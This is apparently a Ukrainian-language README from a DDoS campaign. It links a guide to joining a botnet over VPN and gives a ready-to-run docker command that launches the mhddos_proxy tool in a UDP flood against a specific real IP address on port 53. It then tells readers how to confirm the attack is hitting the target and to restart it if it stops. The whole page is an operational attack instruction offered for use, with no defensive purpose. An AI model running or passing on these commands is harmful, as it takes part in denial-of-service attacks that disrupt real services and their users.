   **Необхідно використовувати VPN!!!** Налаштувати його можна за допомогою [ось цього гайду](https://telegra.ph/Prisoedinyaemsya-k-botnetu-dlya-DDoS-ataki-s-ispolzovaniem-dockerprotonVPN-02-27), гортайте нижче.
  ```sh
  sudo docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy udp://217.175.155.100:53 -t 1000 --debug --http-methods UDP
  ```
  
<br/>

## Пояснення атак

Після запуску атак повинен з'явитися наступний текст. Якщо з'явився, значить усе добре, скрипт запустився й працює.

<p align="center">
  <img src="/images/MHDDoS_proxy/1.png?raw=true" />
</p>

Після з'єднання й налаштування проксі, має з'явитися інформація про атаки. Якщо вивід приблизно такий, як на скріні (серед атак із 0 нагрузкою на таргет часто трапляються ті, які роблять нагрузку), значить усе добре, скрипт працює, атака йде. Періодично моніторьте, чи вивід залишається таким. Якщо ні - то можете перезапустити атаку.

<p align="center">
  <img src="/images/MHDDoS_proxy/2.png?raw=true" />
</p>

